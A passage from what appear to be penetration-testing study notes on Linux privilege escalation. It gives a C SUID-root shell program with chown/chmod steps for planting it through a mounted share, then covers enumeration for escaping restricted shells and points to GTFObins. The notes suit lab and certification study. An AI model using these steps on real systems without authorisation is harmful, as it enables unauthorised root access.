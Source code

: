   ```c
  3. From the host `/bash -p`

- **C script**, since C produces a binary

  1. On the Host (to avoid compatibility issues), write and compile:

     ```c
     #include <stdio.h>
     #include <sys/types.h>
     #include <unistd.h>
     #include <stdlib.h>
     
     int main(void)
     {
       setuid(0); setgid(0); system("/bin/bash");
     }
     ```

  2. On Kali, in the mounted folder:

     ```bash
     chown root:root shell
     chmod u+s shell
     ```

  3. On the Host: `.\shell`

- **MSV malware**

## Restricted shells

A restricted shell is a type of shell that limits the user's ability to execute commands, they are `rbash`, `rksh`, and `rzsh`.

### Enumeration

```bash
export -p # It spits out all the variables set
env # It gives the $SHELL and $PATH variable
echo $0 # It gives the $SHELL name
echo $PATH # It gives the path variable
```

To see which commands are executable &rarr; [GTFObins](https://gtfobins.github.io/#+shell)

- `help` `?` `info`
- Executable commands: `compgen -c`
- List the commands in you PATH:
  - `ls [PATH]`
  - `[PATH] and hit tab twice `
  - `echo [PATH]/*`
- File read `echo "$(<a.txt )"`
